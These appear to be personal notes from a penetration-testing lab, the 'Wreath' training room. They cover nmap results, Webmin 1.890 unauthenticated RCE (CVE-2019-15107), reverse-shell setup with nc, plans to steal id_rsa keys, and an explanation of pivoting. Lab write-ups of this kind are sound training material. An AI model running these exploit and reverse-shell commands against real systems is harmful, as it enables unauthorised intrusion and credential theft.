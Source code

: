 | Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-12-08T09:08:50
| Not valid after:  2022-12-08T09:08:50
| MD5:   185c 96d9 a527 9b3e f8c3 417e 898e 67e8
|_SHA-1: db6b 5160 de0b 63e7 60d6 2619 d807 4457 02a6 376f
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: F6E7EAF456B33D34D7033E3A6D92F9EC
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%)_

with 
http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
from port 80, we know OS is centos(-O not always right, expose via service sometime more accurate)

let's access webserver port
http://10.200.72.200 redirect to https://thomaswreath.thm/
ok, let's add this domain name to /etc/hosts file
```bash
subl /etc/hosts : 10.200.72.200    thomaswreath.thm
```
access https://thomaswreath.thm/ we can see that's a introduction page of thomas wreath.
we found his phone number: 

at port 10000 have http server  MiniServ 1.890 (Webmin httpd)
ok interesting, doing some goole search, we find out this version vulnerable to RCE: https://medium.com/@foxsin34/webmin-1-890-exploit-unauthorized-rce-cve-2019-15107-23e4d5a9c3b4

we found python exploit tool, let's clone it to our machine
git clone 
exploit:
```bash
python3 10.200.72.200 10000 'id'
#> (root)
# ok, let's get a reverse shell
# we can't send command and get shell, i don't know why, so we download rce file to the remote machine and execute them
# file shell-devme.ph
..
# local machine:
nc -nlvp 9999
# remote machine
python3 10.200.72.200 10000 'chmod 700 shell-devme.py; python3 shell-devme.py'
# we have a reverse shell!
# steal id_rsa and make port forwarding/proxy/tunnel(pivoting) to attack other machine in local network
```
Pivoting is the art of using access obtained over one machine to exploit another machine deeper in the network. It is one of the most essential aspects of network penetration testing, and is one of the three main teaching points for this room.
*A proxy is good if* we want to redirect *lots of different kinds of traffic* into our target network -- for example, with an nmap scan, or to access multiple ports on multiple different machines.
*Port Forwarding* tends to be faster and more reliable, but only allows us to access a single port (or a small range) on a target device.
